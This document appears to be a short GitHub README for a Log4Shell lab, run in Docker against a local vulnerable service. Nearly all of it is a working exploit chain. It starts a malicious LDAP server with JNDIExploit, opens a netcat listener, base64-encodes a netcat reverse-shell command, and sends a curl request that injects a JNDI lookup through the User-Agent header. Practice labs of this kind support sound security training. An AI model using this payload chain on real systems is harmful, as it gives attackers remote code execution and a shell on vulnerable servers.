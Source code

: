 # Log4Shell



## Steps to run

<br />

## Build and Run

```
docker-compose up --build
```


## Setup ldap server
-   Github [repo](https://github.com/feihong-cs/JNDIExploit)
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <ip> -p <port>
```


## Listener
```
nc -vlp <port>
```


## convert to base64
```
echo -n 'nc <ip> <port> -e sh' | base64
```


## payload
```
curl http://localhost:8080/hello/user -H 'User-Agent: ${jndi:ldap://<private_ip>:1389/Basic/Command/Base64/<netcat base64 payload>}'
```

